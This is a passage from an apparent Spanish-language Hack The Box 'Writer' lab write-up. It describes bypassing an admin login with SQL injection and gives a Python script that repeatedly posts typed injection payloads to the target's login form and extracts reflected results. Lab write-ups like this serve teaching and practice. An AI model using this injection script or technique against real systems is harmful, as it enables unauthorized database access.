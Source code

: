 Nos dirijimos hacia Administrative y nos encontramos un panel de login, probamos una inyeccion tipica y logramos entrar.


![](/assets/images/htb-writeup-writer/Inyeccion-panel-de-login.png)

## Inyeccion
En el panel de login probamos una inyeccion de tipo union based, y inspeccionamos el codigo fuente antes que se haga el redirect, y vemos que al lado de admin se refleja un 2.
![](/assets/images/htb-writeup-writer/Probamos-una-inyeccion-union-based.png)

 Nos creamos un script en python3. 

```python
#!/usr/bin/python3
def injection():
    data_post = {'uname':payload,'password':"pwned"}
    r = requests.post(main_url,data=data_post,allow_redirects=False)
    regex = re.findall(r"<h3 class=\"animation-slide-top\">(.*?)</h3>",r.text)
    print(regex)
if __name__ == '__main__':
    import requests,re
    while True:
        payload = input('_>')
        main_url = "http://writer.htb/administrative"
        injection()
 ```
 Listamos las tablas una por una.